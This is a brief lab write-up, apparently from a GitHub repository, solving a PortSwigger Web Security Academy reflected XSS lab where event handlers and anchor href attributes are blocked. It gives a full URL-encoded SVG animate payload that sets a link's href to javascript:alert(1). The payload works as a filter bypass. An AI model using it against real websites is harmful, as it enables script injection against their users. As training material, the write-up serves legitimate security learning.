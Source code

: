- Consider a shopping application that contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked.

![image](https://github.com/Akhilkj123/Portswigger/assets/65653010/3b1b94f9-30db-4dd0-808a-09805141bd3a)

- For solving this lab, we perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function. So we inject a URL ' https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E'> We replace the YOUR_LAB_ID with our lab ID.

![image](https://github.com/Akhilkj123/Portswigger/assets/65653010/7dad1872-f548-4009-bc50-7dc9c682a9cd)

- So the lab gets solved.

![image](https://github.com/Akhilkj123/Portswigger/assets/65653010/54e50dc0-1b43-4ec7-9045-930b567c60cc)



